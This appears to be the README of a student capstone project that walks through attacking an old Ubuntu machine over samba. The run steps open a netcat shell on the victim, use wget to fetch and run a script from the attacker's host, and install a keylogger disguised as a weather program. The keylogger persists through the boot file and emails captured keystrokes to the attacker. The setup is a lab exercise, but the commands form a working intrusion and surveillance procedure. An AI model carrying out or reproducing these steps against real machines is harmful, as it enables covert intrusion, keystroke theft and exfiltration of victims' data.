 # Capstone

## Scripts
- [exploit script](exploit/exploit.sh)
- [run keylogger](exploit/run.sh)
- [add keylogger to boot file](exploit/rewriteBoot.sh)
- [keylogger](exploit/weather.py)
## Binary
[A seemingly checking weather keylogger binary](exploit/weather)
## Email
A temporary Email address is needed so that keylogger can send message back
## Virtual Machines

## Virtual Machines

### Attacker

- Linux based machine with python on it (Kali-Linux is recommended)
- Unix based machine

### Victim

- [Ubuntu 8.04 Desktop with samba installed](https://drive.google.com/file/d/1bCviB84Nn4B2H-JRrIk0tRF7tXcdrCtE/view?usp=sharing)

## How To Run

1. Turn on all three devices (both [attackers](#attacker) and [victim](#victim)). You don’t need to login [victim](#victim), but you do need to login both [Kali-Linux and Server](#attacker).
2. In the [Kali-Linux](#attacker), copy all the bash script files and binary file into the same folder

    ```bash
    > ls # should see only 4 files
    exploit.sh rewriteBoot.sh  run.sh weather
    ```

3. Start attack by:

    ```bash
    chmod +x exploit.sh # give permission
    ./exploit.sh <Target IP> <Kali-Linux IP> # run exploit script
    ```

   Give it seconds, if nothing showing after typing the command, give it another try.

4. Inside the netcat shell:

    ```bash
    wget http://<Kali-Linux IP>:8564/run.sh
    chmod +x run.sh
    ./run.sh <Kali-Linux IP> <Email Address> <Server IP>
    ```

   Terminate the process after a few second. You need to type CRTL+C twice. One for the NetCat one for the http server.